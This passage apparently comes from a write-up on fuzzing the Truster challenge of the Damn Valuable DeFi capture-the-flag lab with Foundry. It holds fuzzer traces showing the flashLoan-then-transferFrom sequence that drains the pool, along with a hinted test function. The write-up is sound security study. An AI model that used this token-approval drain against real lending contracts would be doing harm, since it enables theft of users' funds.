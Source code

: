 ```javascript
[FAIL: invariant_isSolved replay failure]
        [Sequence]
                sender=0x44E97aF4418b7a17AABD8090bEA0A471a366305C addr=[src/truster/TrusterLenderPool.sol:TrusterLenderPool]0x1240FA2A84dd9157a0e76B5Cfe98B1d52268B264 calldata=_flashLoan(uint256,address) args=[0, 0x85B3d986977391795F57ce5c08d0E1925c7ADc80]
                sender=0x44E97aF4418b7a17AABD8090bEA0A471a366305C addr=[src/DamnValuableToken.sol:DamnValuableToken]0x8Ad159a275AEE56fb2334DBb69036E9c7baCEe9b calldata=transferFrom(address,address,uint256) args=[0x1240FA2A84dd9157a0e76B5Cfe98B1d52268B264, 0x000000000000000000000000000000000000022D, 67]
```
With this hint, the Foundry fuzzer did find the attack. As I understand it, the very construction of some transaction through target and data passed through parameters is already a problem for Foundry fuzzer.
Okay, so let's rewrite our hint, but make it less explicit and avoid passing target and data through parameters:
```solidity
// Fuzz flashloan function (less hint)
function __flashLoan(uint256 amount, address borrower, bool is_approve, address to, uint256 amount_to_approve)
    external
    nonReentrant
    returns (bool)
{
    uint256 balanceBefore = token.balanceOf(address(this));
    
    token.transfer(borrower, amount);
    if (is_approve) {
        token.approve(to, amount);
    }
    if (token.balanceOf(address(this)) < balanceBefore) {
        revert RepayFailed();
    }

    return true;
}
```
Here, it is enough to pass is `is_approve = true`, `to` as the address of the `player`, and a rather large `amount_to_approve` to the fuzzer. And perform `transferFrom()` with another transaction. Let's try:
```javascript
$ forge test -vvvvv --mp test/truster/Truster_Fuzz.t.sol
...
  [22609] TrusterLenderPool::__flashLoan(0, 0x511115Da795ee95A8f5557bE63E005478D4A19Bc, true, 0x50719d462702f96320f8747bc51b7b447c989Cb3, 5108201074406009179262425133938908488538452 [5.108e42])
  ...
      ├─ [4623] DamnValuableToken::approve(0x50719d462702f96320f8747bc51b7b447c989Cb3, 0)    
      │   ├─ emit Approval(owner: TrusterLenderPool: [0x1240FA2A84dd9157a0e76B5Cfe98B1d52268B264], spender: 0x50719d462702f96320f8747bc51b7b447c989Cb3, amount: 0)
...
  [22609] TrusterLenderPool::__flashLoan(0, 0x33911140d693f2d422d721856297dfa98d3e9E48, true, 0x60CF39a6CcA10123Ee5Cb8d224CCde855be067CF, 1498798982649291 [1.498e15])
  ...
    ├─ [4623] DamnValuableToken::approve(0x60CF39a6CcA10123Ee5Cb8d224CCde855be067CF, 0)
    │   ├─ emit Approval(owner: TrusterLenderPool: [0x1240FA2A84dd9157a0e76B5Cfe98B1d52268B264], spender: 0x60CF39a6CcA10123Ee5Cb8d224CCde855be067CF, amount: 0)
...
Suite result: ok. 1 passed; 0 failed; 0 skipped; finished in 1644.57s (1644.57s CPU time)
```
All transaction sequences with `flashLoan()`->`approve()` did not lead to anything, because some random addresses, which are not even deployed, were always chosen as the `to` parameter. We could still experiment with hints, but in my opinion such logic of the fuzzer is already too weak. Even if the solution exist, then we still have to twist the fuzzer logic a lot to achieve an acceptable result.
So let's try something different.